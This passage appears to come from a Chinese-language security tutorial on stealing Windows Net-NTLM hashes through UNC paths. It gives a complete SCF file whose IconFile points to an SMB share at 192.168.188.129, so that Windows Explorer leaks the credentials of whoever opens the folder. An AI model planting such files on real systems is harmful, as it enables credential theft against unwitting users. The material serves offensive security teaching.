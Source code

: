 [![](assets/1701222524-3fd1185521e50a6e0fd687bb1e41e812.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128141054-e3bafd5e-8db4-1.png)  
当用户访问该文件夹的时候会去访问UNC路径,我们就能获取用户的net-ntlm hash：  
[![](assets/1701222524-b6e05083da884753d1e4af0e4d412f18.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128141106-eac8d346-8db4-1.png)

### SCF文件利用

scf文件包含了IconFile属性，所以Explore.exe会尝试获取文件的图标，而IconFile是支持UNC路径的，以下是scf后缀的文件的格式

```plain
[Shell]
Command=2
IconFile=\\192.168.188.129\scf\test.ico
[Taskbar]
Command=ToggleDesktop
```

